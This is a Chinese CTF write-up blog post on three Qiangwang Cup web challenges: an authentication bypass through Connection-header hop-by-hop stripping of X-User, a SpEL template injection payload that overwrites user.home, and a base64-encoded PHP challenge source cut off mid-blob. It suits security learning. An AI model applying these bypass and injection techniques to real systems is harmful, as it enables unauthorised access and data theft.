---
title: "第九届强网杯wp"
date: 2025-10-18T09:25:14+08:00
summary: "好难好难好难，但是也是能做出题了！"
url: "/posts/第九届强网杯wp/"
categories:
  - "赛题wp"
tags:
  - "第九届强网杯CTF"
draft: false
---

单单两道题可以让我牢一整天

## SecretVault

附件的目录树



一个python的flask应用，不过有一个go的鉴权服务器，先看authorizer鉴权的流程

```go
package main

import (
	"crypto/rand"	//提供安全的随机数生成器
	"encoding/hex"	//提供十六进制编码和解码功能
	"fmt"
	"log"
	"net/http"		//提供构建 HTTP 服务器和客户端的核心功能
	"net/http/httputil"	//提供 HTTP 请求/响应的调试工具
	"strings"		//提供常用字符串操作
	"time"			//处理时间与日期

	"github.com/golang-jwt/jwt/v5"		//JWT（JSON Web Token）认证中常用的 Go 实现，用来签发、验证和解析 token。
	"github.com/gorilla/mux"			//一个流行的 Go Web 路由库
)

var (
	SecretKey = hex.EncodeToString(RandomBytes(32))
)
```

声明一个全局变量，生成**随机的32字节密钥SecretKey**，用于JWT签名

```go
type AuthClaims struct {
	jwt.RegisteredClaims
	UID string `json:"uid"`
}
```

定义JWT中包含的数据结构并添加了一个自定义的字段UID

```go
func RandomBytes(length int) []byte {
	b := make([]byte, length)
	if _, err := rand.Read(b); err != nil {
		return nil
	}
	return b
}
```

使用 `crypto/rand` 生成加密安全的随机字节

```go
func SignToken(uid string) (string, error) {
	t := jwt.NewWithClaims(jwt.SigningMethodHS256, AuthClaims{
		UID: uid,
		RegisteredClaims: jwt.RegisteredClaims{
			Issuer:    "Authorizer",
			Subject:   uid,
			ExpiresAt: jwt.NewNumericDate(time.Now().Add(time.Hour)),
			IssuedAt:  jwt.NewNumericDate(time.Now()),
			NotBefore: jwt.NewNumericDate(time.Now()),
		},
	})
	tokenString, err := t.SignedString([]byte(SecretKey))
	if err != nil {
		return "", err
	}
	return tokenString, nil
}
```

创建JWT token，其中包括UID以及RegisteredClaims的字段，并使用HMAC-SHA256算法结合SecretKey密钥进行签名

```go
func GetUIDFromRequest(r *http.Request) string {...}
```

从请求中获取UID的过程

```go
authHeader := r.Header.Get("Authorization")
	if authHeader == "" {
		cookie, err := r.Cookie("token")
		if err == nil {
			authHeader = "Bearer " + cookie.Value
		} else {
			return ""
		}
	}
```

先是从Authorization中获取，若没有则从Cookie中的token去获取，如果 Cookie 存在，则 `err == nil`，进入构造Bearer格式

```go
if len(authHeader) <= 7 || !strings.HasPrefix(authHeader, "Bearer ") {
		return ""
	}
	tokenString := strings.TrimSpace(authHeader[7:])
	if tokenString == "" {
		return ""
	}
```

然后检查Bearer格式，说白了就是检查token是否是有效格式，并提取出token的内容设置为tokenString

```go
token, err := jwt.ParseWithClaims(tokenString, &AuthClaims{}, func(token *jwt.Token) (interface{}, error) {
		if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
			return nil, fmt.Errorf("unexpected signing method: %v", token.Header["alg"])
		}
		return []byte(SecretKey), nil
	})
	if err != nil {
		log.Printf("failed to parse token: %v", err)
		return ""
	}
	claims, ok := token.Claims.(*AuthClaims)
	if !ok || !token.Valid {
		log.Printf("invalid token claims")
		return ""
	}
	return claims.UID
```

`jwt.ParseWithClaims` 用于解析tokenString并验证签名，会把payload解码成AuthClaims结构体，但是`jwt.ParseWithClaims` 需要提供一个函数来返回签名密钥，这里的函数通过检测是否是HMAC加密并返回用于验证的密钥

最后会提取claims中的UID并返回

然后我们看看主函数main

```go
func main() {	
    authorizer := &httputil.ReverseProxy{Director: func(req *http.Request) {
		req.URL.Scheme = "http"
		req.URL.Host = "127.0.0.1:5000"

		uid := GetUIDFromRequest(req)
		log.Printf("Request UID: %s, URL: %s", uid, req.URL.String())
		req.Header.Del("Authorization")
		req.Header.Del("X-User")
		req.Header.Del("X-Forwarded-For")
		req.Header.Del("Cookie")

		if uid == "" {
			req.Header.Set("X-User", "anonymous")
		} else {
			req.Header.Set("X-User", uid)
		}
	}}
```

创建反向代理，转发到Flask应用，检测UID是否存在并设置请求头`X-User`

```go
	signRouter := mux.NewRouter()	//创建一个路由器实例
	signRouter.HandleFunc("/sign", func(w http.ResponseWriter, r *http.Request) {	//定义一个/sign路由
		if !strings.HasPrefix(r.RemoteAddr, "127.0.0.1:") {	// 检查客户端 IP 是否为本地
			http.Error(w, "Forbidden", http.StatusForbidden)
		}
		uid := r.URL.Query().Get("uid")	//从查询参数获取用户ID
		token, err := SignToken(uid)	//生成token
		if err != nil {
			log.Printf("Failed to sign token: %v", err)
			http.Error(w, "Failed to generate token", http.StatusInternalServerError)
			return
		}
		w.Write([]byte(token))	//返回token
	}).Methods("GET")	//请求方法为get
```

这个路由要求只能从本地去访问

```go
	log.Println("Sign service is running at 127.0.0.1:4444")
	go func() {
		if err := http.ListenAndServe("127.0.0.1:4444", signRouter); err != nil {
			log.Fatal(err)
		}
	}()

	log.Println("Authorizer middleware service is running at :5555")
	if err := http.ListenAndServe(":5555", authorizer); err != nil {
		log.Fatal(err)
	}
```

定义了一个内部签名服务4444端口和外部反向代理服务5555端口

然后我们看一下app.py

```python
db = SQLAlchemy()

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)	#主键，自增整数
    username = db.Column(db.String(80), unique=True, nullable=False)	#用户名，最长 80 字符，unique=True 保证唯一，nullable=False 不允许为空
    password_hash = db.Column(db.String(128), nullable=False)	#存储经哈希处理后的密码，长度限制为128
    salt = db.Column(db.String(64), nullable=False)		#存储用于哈希的 salt
    created_at = db.Column(db.DateTime, default=datetime.utcnow, nullable=False)	#创建时间，默认当前 UTC 时间
    vault_entries = db.relationship('VaultEntry', backref='user', lazy=True, cascade='all, delete-orphan')
	#创建ORM 关系：一个用户对应多个 VaultEntry，backref='user'：在 VaultEntry 实例上可通过 .user 访问父 User

class VaultEntry(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)#外键，指向 user 表的 id 字段；不可空
    label = db.Column(db.String(120), nullable=False)
    login = db.Column(db.String(120), nullable=False)
    password_encrypted = db.Column(db.Text, nullable=False)	#存储加密后的密码
    notes = db.Column(db.Text)
    created_at = db.Column(db.DateTime, default=datetime.utcnow, nullable=False)
```

定义了两个两个数据库模型，`User` 表保存账号信息（含盐与密码哈希）；`VaultEntry` 表保存某用户的若干凭据（登录名、**加密**后的密码、备注）；二者通过 `user_id` 建 FK 关联，且在 `User` 被删除时会级联删除对应的 `VaultEntry`。

```python
def hash_password(password: str, salt: bytes) -> str:
    data = salt + password.encode('utf-8')
    for _ in range(50):
        data = hashlib.sha256(data).digest()
    return base64.b64encode(data).decode('utf-8')
```

将salt盐值和密码拼接，并进行50轮的SHA256迭代哈希，最后base64编码并返回加密结果

```python
def verify_password(password: str, salt_b64: str, digest: str) -> bool:
    salt = base64.b64decode(salt_b64.encode('utf-8'))
    return hash_password(password, salt) == digest
```

验证密码函数

```python
def generate_salt() -> bytes:
    return secrets.token_bytes(16)
```

盐值生成函数，生成16字节的随机数据

然后我们看flask应用的函数

```python
def create_app() -> Flask:
    app = Flask(__name__)
    app.config['SECRET_KEY'] = secrets.token_hex(32)
    app.config['SQLALCHEMY_DATABASE_URI'] = os.getenv('DATABASE_URL', 'sqlite:///vault.db')
    app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
    app.config['SIGN_SERVER'] = os.getenv('SIGN_SERVER', 'http://127.0.0.1:4444/sign')
    fernet_key = os.getenv('FERNET_KEY')
    if not fernet_key:
        raise RuntimeError('Missing FERNET_KEY environment variable. Generate one with `python -c "from cryptography.fernet import Fernet; print(Fernet.generate_key().decode())"`.')
    app.config['FERNET_KEY'] = fernet_key
    db.init_app(app)
```

一些配置信息包括SECRET_KEY、数据库连接、FERNET_KEY等

```python
 fernet = Fernet(app.config['FERNET_KEY'])
    with app.app_context():
        db.create_all()	#创建数据表

        if not User.query.first():	#检查是否是第一次运行	
            salt = secrets.token_bytes(16)	#随机生成盐值
            password = secrets.token_bytes(32).hex()	#随机生成密码
            password_hash = hash_password(password, salt)	#计算密码的哈希加密值
            user = User(		#创建admin用户对象
                id=0,
                username='admin',
                password_hash=password_hash,	#设置密码哈希
                salt=base64.b64encode(salt).decode('utf-8'),	#存储Base64编码的盐值
            )
            db.session.add(user)
            db.session.commit()		#添加到数据库中

            flag = open('/flag').read().strip()		#设置flag条目
            flagEntry = VaultEntry(
                user_id=user.id,		#属于id=0也就是admin用户
                label='flag',
                login='flag',
                password_encrypted=fernet.encrypt(flag.encode('utf-8')).decode('utf-8'),
                notes='This is the flag entry.',
            )
            db.session.add(flagEntry)		#添加内容
            db.session.commit()
```

这里创建了admin用户以及flag的内容并添加到数据库中，对admin和flag建立映射关系

```python
    def login_required(view_func):
        @wraps(view_func)
        def wrapped(*args, **kwargs):
            uid = request.headers.get('X-User', '0')
            print(uid)
            if uid == 'anonymous':
                flash('Please sign in first.', 'warning')
                return redirect(url_for('login'))
            try:
                uid_int = int(uid)
            except (TypeError, ValueError):
                flash('Invalid session. Please sign in again.', 'warning')
                return redirect(url_for('login'))
            user = User.query.filter_by(id=uid_int).first()
            if not user:
                flash('User not found. Please sign in again.', 'warning')
                return redirect(url_for('login'))

            g.current_user = user
            return view_func(*args, **kwargs)

        return wrapped
```

一个认证装饰器

```python
    @app.route('/')
    def index():
        uid = request.headers.get('X-User', '0')
        if not uid or uid == 'anonymous':
            return redirect(url_for('login'))
        
        return redirect(url_for('dashboard'))
```

根路由，通过获取`X-User`请求头来进行认证，如果uid是anonymous或不存在则重定向到login登录页面，否则进入控制面板dashboard页面

```python
    @app.route('/register', methods=['GET', 'POST'])
    def register():
        if request.method == 'POST':
            username = request.form.get('username', '').strip()
            password = request.form.get('password', '')
            confirm_password = request.form.get('confirm_password', '')
            if not username or not password:
                flash('Username and password are required.', 'danger')
                return render_template('register.html')
            if password != confirm_password:
                flash('Passwords do not match.', 'danger')
                return render_template('register.html')
            salt = generate_salt()
            password_hash = hash_password(password, salt)
            user = User(
                username=username,
                password_hash=password_hash,
                salt=base64.b64encode(salt).decode('utf-8'),
            )
            db.session.add(user)
            try:
                db.session.commit()
            except IntegrityError:
                db.session.rollback()
                flash('Username already exists. Please choose another.', 'warning')
                return render_template('register.html')
            flash('Registration successful. Please sign in.', 'success')
            return redirect(url_for('login'))
        return render_template('register.html')
```

经典的注册函数，没什么好分析的

```python
    @app.route('/login', methods=['GET', 'POST'])
    def login():
        if request.method == 'POST':
            username = request.form.get('username', '').strip()
            password = request.form.get('password', '')
            user = User.query.filter_by(username=username).first()
            if not user or not verify_password(password, user.salt, user.password_hash):
                flash('Invalid username or password.', 'danger')
                return render_template('login.html')
            r = requests.get(app.config['SIGN_SERVER'], params={'uid': user.id}, timeout=5)
            if r.status_code != 200:
                flash('Unable to reach the authentication server. Please try again later.', 'danger')
                return render_template('login.html')
            
            token = r.text.strip()
            response = make_response(redirect(url_for('dashboard')))
            response.set_cookie(
                'token',
                token,
                httponly=True,
                secure=app.config.get('SESSION_COOKIE_SECURE', False),
                samesite='Lax',
                max_age=12 * 3600,
            )
            return response
        return render_template('login.html')
```

登录路由，我们来详细分析一下

检测请求方式是否为POST，并获取用户名和密码，在数据库中查询并返回相应的user用户信息

```python
r = requests.get(app.config['SIGN_SERVER'], params={'uid': user.id}, timeout=5)
token = r.text.strip()
response = make_response(redirect(url_for('dashboard')))
response.set_cookie(
    'token',
    token,
    httponly=True,
    secure=app.config.get('SESSION_COOKIE_SECURE', False),
    samesite='Lax',
    max_age=12 * 3600,
)
return response
return render_template('login.html')
```

如果验证成功则发送请求至`http://127.0.0.1:4444/sign`，参数为用户的uid，从响应中获取JWT token并设置token到cookie，最后返回响应

```python
    @app.route('/logout')
    def logout():
        response = make_response(redirect(url_for('login')))
        response.delete_cookie('token')
        flash('Signed out.', 'info')
        return response
```

登出路由就不用看了，一个重定向加删除token的操作

```python
    @app.route('/dashboard')
    @login_required
    def dashboard():
        user = g.current_user
        entries = [
            {
                'id': entry.id,
                'label': entry.label,
                'login': entry.login,
                'password': fernet.decrypt(entry.password_encrypted.encode('utf-8')).decode('utf-8'),
                'notes': entry.notes,
                'created_at': entry.created_at,
            }
            for entry in user.vault_entries
        ]
        return render_template('dashboard.html', username=user.username, entries=entries)
```

设置了需要认证装饰器进行认证的路由dashboard，需要关注的一个点是，这里的password是通过fernet去进行解密的

```python
    @app.route('/passwords/new', methods=['POST'])
    @login_required
    def create_password():
        user = g.current_user
        label = request.form.get('label', '').strip()
        login_value = request.form.get('login', '').strip()
        password_plain = request.form.get('password', '').strip()
        notes = request.form.get('notes', '').strip() or None
        if not label or not login_value or not password_plain:
            flash('Service name, login, and password are required.', 'danger')
            return redirect(url_for('dashboard'))
        encrypted_password = fernet.encrypt(password_plain.encode('utf-8')).decode('utf-8')
        entry = VaultEntry(
            user_id=user.id,
            label=label,
            login=login_value,
            password_encrypted=encrypted_password,
            notes=notes,
        )
        db.session.add(entry)
        db.session.commit()
        flash('Password entry saved.', 'success')
        return redirect(url_for('dashboard'))
```

一个创建密码的路由，这里也是需要认证的

```python
    @app.route('/passwords/<int:entry_id>', methods=['DELETE'])
    @login_required
    def delete_password(entry_id: int):
        user = g.current_user
        entry = VaultEntry.query.filter_by(id=entry_id, user_id=user.id).first()
        if not entry:
            return jsonify({'success': False, 'message': 'Entry not found'}), 404
        db.session.delete(entry)
        db.session.commit()
        return jsonify({'success': True})
```

一个删除密码的路由，这里也是需要认证的

分析完源码后可以明确的问题就是，我们如何获取到admin身份，前面的分析可以得出flag是和admin建立了映射关系的

从源码login_required中可以看出

```python
    def login_required(view_func):
        @wraps(view_func)
        def wrapped(*args, **kwargs):
            uid = request.headers.get('X-User', '0')
            print(uid)
            if uid == 'anonymous':
                flash('Please sign in first.', 'warning')
                return redirect(url_for('login'))
            try:
                uid_int = int(uid)
            except (TypeError, ValueError):
                flash('Invalid session. Please sign in again.', 'warning')
                return redirect(url_for('login'))
            user = User.query.filter_by(id=uid_int).first()
            if not user:
                flash('User not found. Please sign in again.', 'warning')
                return redirect(url_for('login'))

            g.current_user = user
            return view_func(*args, **kwargs)

        return wrapped
```

这里仅仅是使用X-User去进行校验，这也意味着我们可以通过构造X-User去伪造admin身份，而admin的id是0，那么我们需要构造的就是

```http
X-User: 0
```

但是在authorizer/main.go中有一个删除请求头并重新设置X-User的代码

```go
	authorizer := &httputil.ReverseProxy{Director: func(req *http.Request) {
		req.URL.Scheme = "http"
		req.URL.Host = "127.0.0.1:5000"

		uid := GetUIDFromRequest(req)
		log.Printf("Request UID: %s, URL: %s", uid, req.URL.String())
		req.Header.Del("Authorization")
		req.Header.Del("X-User")
		req.Header.Del("X-Forwarded-For")
		req.Header.Del("Cookie")

		if uid == "" {
			req.Header.Set("X-User", "anonymous")
		} else {
			req.Header.Set("X-User", uid)
		}
	}}
```

所以这里的X-User是无法手动设置为0的，是否有方法呢？

https://datatracker.ietf.org/doc/html/rfc2616#section-8

从RFC 2616 section-8中可以看到



Connection是一种Hop-by-hop 头部，Hop-by-hop指的是两个相邻 HTTP 节点之间的连接，例如客户端到代理服务器，代理服务器到后端服务器，他不是端到端的连接，而是一种跳级连接

Connection 头部不仅自身是 hop-by-hop 的，还可以用来声明其他自定义的 hop-by-hop 头部

例如我们设置

```http
Connection: close, X-Custom-Header
X-Custom-Header: some-value
```

当我们发送请求的时候，Connection相当于告诉中间代理服务器，X-Custom-Header也是一个hop-by-hop 头部，需要移除他而不能准发他

代理服务器的处理规则

代理服务器在转发请求/响应时必须：

1. **移除所有 hop-by-hop 头部**
2. **移除 Connection 头部中列出的所有头部**
3. **保留并转发所有 end-to-end 头部**
4. **可以添加新的 hop-by-hop 头部**（用于下一跳连接）

因为在反向代理中有一个自动设置X-User的过程，那我们就可以通过将X-User设置为hop-by-hop 头部，从而在请求到达服务器之前把X-User删除，那么在login_required获取该请求头的时候如果获取不到默认就为0



## bbjv

java的题，先反编译然后处理一下

看依赖


不太熟悉的依赖，然后转向看控制器

```java
package com.ctf.gateway.controller;

import com.ctf.gateway.service.EvaluationService;
import java.io.BufferedReader;
import java.io.File;
import java.io.FileNotFoundException;
import java.io.FileReader;
import java.io.IOException;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
/* loaded from: app.jar:BOOT-INF/classes/com/ctf/gateway/controller/GatewayController.class */
public class GatewayController {
    private final EvaluationService evaluationService;

    public GatewayController(EvaluationService evaluationService) {
        this.evaluationService = evaluationService;
    }

    @GetMapping({"/check"})
    public String checkRule(@RequestParam String rule) throws FileNotFoundException {
        String result = this.evaluationService.evaluate(rule);
        File flagFile = new File(System.getProperty("user.home"), "flag.txt");
        if (flagFile.exists()) {
            try {
                BufferedReader br = new BufferedReader(new FileReader(flagFile));
                try {
                    String content = br.readLine();
                    result = result + "<br><b>�� Flag:</b> " + content;
                    br.close();
                } finally {
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
        return result;
    }
}

```

接受一个参数rule，会调用到`this.evaluationService.evaluate(rule)`，跟进看看

```java
package com.ctf.gateway.service;

import org.springframework.expression.EvaluationContext;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.common.TemplateParserContext;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.stereotype.Service;

@Service
/* loaded from: app.jar:BOOT-INF/classes/com/ctf/gateway/service/EvaluationService.class */
public class EvaluationService {
    private final ExpressionParser parser = new SpelExpressionParser();
    private final EvaluationContext context;

    public EvaluationService(EvaluationContext context) {
        this.context = context;
    }

    public String evaluate(String expression) {
        try {
            Object result = this.parser.parseExpression(expression, new TemplateParserContext()).getValue(this.context);
            return "Result: " + String.valueOf(result);
        } catch (Exception e) {
            return "Error: " + e.getMessage();
        }
    }
}

```

一个spel表达式的计算代码，rule就是我们需要传入的spel表达式，但是好像我直接打spel注入不得行？

关注到一个点

```java
Object result = this.parser.parseExpression(expression, new TemplateParserContext()).getValue(this.context);
```

这里的话是用到TemplateParserContext模板去解析，我们分析一下这个



可以看到他解析的spel表达式是`#{}`格式的表达式

例如我们传入`#{1+2}`



接着看一下accessor中的代码

```java
package com.ctf.gateway.accessor;

import org.springframework.expression.AccessException;
import org.springframework.expression.EvaluationContext;
import org.springframework.expression.spel.support.ReflectivePropertyAccessor;

/* loaded from: app.jar:BOOT-INF/classes/com/ctf/gateway/accessor/SecurePropertyAccessor.class */
public class SecurePropertyAccessor extends ReflectivePropertyAccessor {
    @Override // org.springframework.expression.spel.support.ReflectivePropertyAccessor, org.springframework.expression.PropertyAccessor
    public boolean canRead(EvaluationContext context, Object target, String name) throws AccessException {
        return false;
    }
}

```

`ReflectivePropertyAccessor` 是 SpEL 用来通过 Java 反射访问 Java 对象属性（fields/getters）的默认实现之一。这里重写了里面的canRead方法，意思就是只要spel语句中用到反射访问java对象属性的话就会return false，相当于是一个waf吧

另外还有一个config文件

```java
package com.ctf.gateway.config;

import com.ctf.gateway.accessor.SecurePropertyAccessor;
import java.util.Properties;
import org.springframework.beans.factory.annotation.Qualifier;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.expression.EvaluationContext;
import org.springframework.expression.spel.support.SimpleEvaluationContext;

@Configuration
/* loaded from: app.jar:BOOT-INF/classes/com/ctf/gateway/config/SpelConfig.class */
public class SpelConfig {
    @Bean({"systemProperties"})
    public Properties systemProperties() {
        return System.getProperties();
    }

    @Bean({"restrictedEvalContext"})
    public EvaluationContext restrictedEvaluationContext(@Qualifier("systemProperties") Properties systemProperties) {
        SimpleEvaluationContext simpleContext = SimpleEvaluationContext.forPropertyAccessors(new SecurePropertyAccessor()).build();
        simpleContext.setVariable("systemProperties", systemProperties);
        return simpleContext;
    }
}

```

这里定义了两个java Bean，并且在restrictedEvalContext中设置了一个变量为systemProperties，那我们看看能不能调用`System.getProperties()`



按照源码的逻辑，会找到user.home下的flag.txt，如果存在就会输出flag，但是这里的话是root目录，所以问题就是在于flag.txt不是在root目录下，会在什么目录呢？

想了半天没想明白，后面想起还有一个docker文件

```dockerfile
FROM openjdk:21-jdk-slim

WORKDIR /app

COPY app.jar /app/app.jar
COPY flag.txt /tmp/flag.txt

EXPOSE 8080

CMD ["java", "-jar", "app.jar"]
```

原来flag在tmp下，我真是个傻子！！！

这时候就看看能不能执行代码修改属性的值了，但是我尝试调用System.setProperty的时候出现报错了，

```java
Error: EL1004E: Method call: Method setProperty(java.lang.String,java.lang.String) cannot be found on type java.util.Properties
```

显示是没有这个方法，后面才知道是因为SimpleEvaluationContext，他默认禁用实例方法调用，除非在构造函数中定义了方法调用，例如

```java
public Properties systemProperties() {
        return System.getProperties();
    }
```

那该怎么办呢？

没想到，直接赋值也是可以的

```java
#{#systemProperties['user.home'] = '/tmp'}
```



## ezphp（赛后复现）

打开题目是一串编码

```php
<?=eval(base64_decode('ZnVuY3Rpb24gZ2VuZXJhdGVSYW5kb21TdHJpbmcoJGxlbmd0aCA9IDgpeyRjaGFyYWN0ZXJzID0gJ2FiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6JzskcmFuZG9tU3RyaW5nID0gJyc7Zm9yICgkaSA9IDA7ICRpIDwgJGxlbmd0aDsgJGkrKykgeyRyID0gcmFuZCgwLCBzdHJsZW4oJGNoYXJhY3RlcnMpIC0gMSk7JHJhbmRvbVN0cmluZyAuPSAkY2hhcmFjdGVyc1skcl07fXJldHVybiAkcmFuZG9tU3RyaW5nO31kYXRlX2RlZmF1bHRfdGltZXpvbmVfc2V0KCdBc2lhL1NoYW5naGFpJyk7Y2xhc3MgdGVzdHtwdWJsaWMgJHJlYWRmbGFnO3B1YmxpYyAkZjtwdWJsaWMgJGtleTtwdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoKXskdGhpcy0+cmVhZGZsYWcgPSBuZXcgY2xhc3Mge3B1YmxpYyBmdW5jdGlvbiBfX2NvbnN0cnVjdCgpe2lmIChpc3NldCgkX0ZJTEVTWydmaWxlJ10pICYmICRfRklMRVNbJ2ZpbGUnXVsnZXJyb3InXSA9PSAwKSB7JHRpbWUgPSBkYXRlKCdIaScpOyRmaWxlbmFtZSA9ICRHTE9CQUxTWydmaWxlbmFtZSddOyRzZWVkID0gJHRpbWUgLiBpbnR2YWwoJGZpbGVuYW1lKTttdF9zcmFuZCgkc2VlZCk7JHVwbG9hZERpciA9ICd1cGxvYWRzLyc7JGZpbGVzID0gZ2xvYigkdXBsb2FkRGlyIC4gJyonKTtmb3JlYWNoICgkZmlsZXMgYXMgJGZpbGUpIHtpZiAoaXNfZmlsZSgkZmlsZSkpIHVubGluaygkZmlsZSk7fSRyYW5kb21TdHIgPSBnZW5lcmF0ZVJhbmRvbVN0cmluZyg4KTskbmV3RmlsZW5hbWUgPSAkdGltZSAuICcuJyAuICRyYW5kb21TdHIgLiAnLicgLiAnanBnJzskR0xPQkFMU1snZmlsZSddID0gJG5ld0ZpbGVuYW1lOyR1cGxvYWRlZEZpbGUgPSAkX0ZJTEVTWydmaWxlJ11bJ3RtcF9uYW1lJ107JHVwbG9hZFBhdGggPSAkdXBsb2FkRGlyIC4gJG5ld0ZpbGVuYW1lOyBpZiAoc3lzdGVtKCJjcCAiLiR1cGxvYWRlZEZpbGUuIiAiLiAkdXBsb2FkUGF0aCkpIHtlY2hvICJzdWNjZXNzIHVwbG9hZCEiO30gZWxzZSB7ZWNobyAiZXJyb3IiO319fXB1YmxpYyBmdW5jdGlvbiBfX3dha2V1cCg